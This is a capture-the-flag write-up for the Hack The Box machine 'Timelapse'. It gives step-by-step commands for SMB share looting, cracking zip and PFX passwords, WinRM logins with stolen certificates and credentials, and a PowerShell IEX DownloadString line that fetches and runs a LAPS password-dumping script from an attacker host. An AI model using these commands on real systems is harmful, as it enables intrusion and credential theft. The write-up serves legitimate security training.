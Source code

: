# HTB - Timelapse

**IP Address:** `10.10.11.152`  
**OS:** Windows Server 2019  
**Difficulty:** Medium  
**Tags:** SMB, PFX Certificate, Evil-WinRM with SSL, LAPS, Domain Admin, Password Extraction

---

## 1. Initial Enumeration

### 1.1 Ping

```bash
ping -c 1 10.10.11.152
```

✅ Host is alive

### 1.2 Nmap Scan

Found:

- 445/tcp → SMB
- 5986/tcp → WinRM over SSL (no 5985)

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.11.152 -oG allPorts
nmap -sC -sV -p445,5986 10.10.11.152 -oN targeted
```

---

## 2. SMB Enumeration

```bash
crackmapexec smb 10.10.11.152
smbclient -L 10.10.11.152 -N
smbmap -H 10.10.11.152 -u none
```

Found readable share: `Shares`

Downloaded:

```bash
smbclient //10.10.11.152/Shares -N
cd Dev
get winrm_backup.zip
```

---

## 3. ZIP Cracking & Certificate Extraction

### 3.1 Crack zip password:

```bash
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip
```

Unzipped to obtain `.pfx` file.

### 3.2 Crack .pfx password:

```bash
crackpkcs12 -d /usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx
```

Extracted private key:

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificates.pem
```

---

## 4. WinRM Access over SSL

```bash
evil-winrm -i 10.10.11.152 -c certificates.pem -k priv-key.pem -S
```

✅ Logged in as user `legacyy`  
🏁 **User flag obtained**

---

## 5. Local Enumeration

Viewed command history:

```bash
type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

Found hardcoded credentials:

- User: `svc_deploy`
- Password: `E3R$Q62^12p7PLlC%KWaxuaV`

---

## 6. WinRM with svc_deploy

```bash
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

✅ Access confirmed

Discovered `svc_deploy` is part of `LAPS_Readers`.

---

## 7. Extract LAPS Passwords

Downloaded and executed:

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14/Get-LAPSPasswords.ps1')
Get-LAPSPasswords
```

Extracted password for several users.

---

## 8. Privilege Escalation to Domain Admin

Password worked for user `TRX`, who belongs to `Domain Admins`.

Logged in and accessed:

```powershell
cd C:\Users\TRX\Desktop
type root.txt
```

🏁 **Root flag obtained**

---

# ✅ MACHINE COMPLETE
